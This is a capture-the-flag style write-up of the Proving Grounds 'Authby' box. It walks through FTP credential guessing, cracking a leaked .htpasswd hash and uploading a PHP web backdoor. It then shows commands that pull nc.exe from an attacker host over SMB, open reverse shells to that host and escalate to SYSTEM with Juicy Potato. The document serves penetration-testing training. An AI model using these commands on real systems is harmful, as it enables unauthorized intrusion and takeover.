 ```yaml
---
description: Writeup for Authby from Offensive Security Proving Grounds (PG)
---
```


# Authby

## Service Enumeration

`nmapAutomator.sh -H 192.168.85.46 -t full`

`nmapAutomator.sh -H 192.168.85.46 -t vulns`

### FTP

Anonymous login allowed.

![](../../.gitbook/assets/40cfb057749e43a990907b307b638aba.png)

While we cannot access these files, we can see that there are some account names.

![](../../.gitbook/assets/0a2edee418e842e4b7c1828d8e2b8b1c.png)

Using the account `admin:admin`, we get access to some other files.

![](../../.gitbook/assets/7be4c6dead964fbfaec383280f08c380.png)

The `.htaccess` and `.htpasswd` files are leaked.

![](../../.gitbook/assets/e776c36431db4b93a15994031cc7939e.png)

.htaccess

```text
AuthName "Qui e nuce nuculeum esse volt, frangit nucem!"
AuthType Basic
AuthUserFile c:\\wamp\www\.htpasswd
<Limit GET POST PUT>
Require valid-user
</Limit>
```

.htpasswd

```text
offsec:$apr1$oRfRsc/K$UpYpplHDlaemqseM39Ugg0
```

Passing the `.htpasswd` hash into John the Ripper, we find the credentials to authenticate into the HTTP server.

![](../../.gitbook/assets/bfb9cc2aaeab49158478a651a9d8a10d.png)

![](../../.gitbook/assets/2cd7d80a55de4d43a0b44df1f215b49c%20%281%29.png)

### RDP

![](../../.gitbook/assets/df3789bd1922460f8f7a9d819749753b.png)

### Nonstandard Ports

![](../../.gitbook/assets/5c7893d2d0964eebae8877ae720acdae.png)

### HTTP

![](../../.gitbook/assets/a13f5f2be1f74edcb940d14977663974.png)

Using the previously found credentials \(`offsec:elite`\), we can authenticate into the application.

![](../../.gitbook/assets/f8c64ee6bb2540ba95059dc4d09f9328.png)

### Subdirectory Enumeration

`gobuster dir -u http://192.168.85.46:242/ -w /usr/share/dirb/wordlists/common.txt -k -x .txt,.php --threads 50 -U offsec -P elite`

![](../../.gitbook/assets/e9e3eed9a56843f998f59dc7f3dc5db1.png)

`gobuster dir -u http://192.168.85.46:242/phpmyadmin -w /usr/share/dirb/wordlists/common.txt -k -x .txt,.php --threads 50 -U offsec -P elite -s 200,204,301,302,307,401`

## Exploitation

Using the PHP backdoor from `/usr/share/webshells/php/simple-backdoor.php`, we can upload this backdoor through the `admin` FTP account to the web root. Then, we can visit the `simple-backdoor.php` and use the `cmd=` parameter to achieve RCE.

![](../../.gitbook/assets/bc1ba58429bc4867800b3b6cb46e556f.png)

Copy `nc.exe` through SMB:

`http://192.168.85.46:242/simple-backdoor.php?cmd=copy \\192.168.49.85\ROPNOP\netcat\nc.exe .`

Trigger a reverse shell:

`http://192.168.85.46:242/simple-backdoor.php?cmd=nc.exe -e cmd.exe 192.168.49.85 443`

On our listening machine, we get a reverse shell.

![](../../.gitbook/assets/54b41425cb8b4a96af76ab0675f16f86.png)

![](../../.gitbook/assets/b24523a311fc49bb965e3d59dc2c33ba.png)

## Privilege Escalation

First, we know that `SeImpersonatePrivilege` is enabled.

![](../../.gitbook/assets/d717307d71944017b76803599566a274.png)

We can perform privilege escalation using Juicy Potato.

However, there are two challenges.

1. This is an x86 system, so we need an x86 Juicy Potato executable. I used the one from here: [https://github.com/ivanitlearning/Juicy-Potato-x86/releases](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)
2. The default CLSID doesn't work. Juicy Potato will return `COM -> recv failed with error: 10038`.

`systeminfo` shows that this is Windows Server 2008.

![](../../.gitbook/assets/c030a1ac33394a86ba17426d70dd3e14.png)

We can use one of the BITS CSLIDs from here: [https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows\_Server\_2008\_R2\_Enterprise](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise). I used `{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}`.

![](../../.gitbook/assets/fe5b98fc281e4f108da259928e60e839.png)

Now, we can use the `nc.exe` we transferred previously to get another reverse shell, this time with SYSTEM privileges.

`juicy.potato.x86.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\wamp\www\nc.exe -e cmd.exe 192.168.49.85 443" -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}`

![](../../.gitbook/assets/c157e7dea6834ec6a3d240f1ce3eb823.png)

On our listening machine:

![](../../.gitbook/assets/ab393a6a63df465e8439202e42aa018e.png)

![](../../.gitbook/assets/51120c1f70f14bfa92f41d88bb66a50d.png)

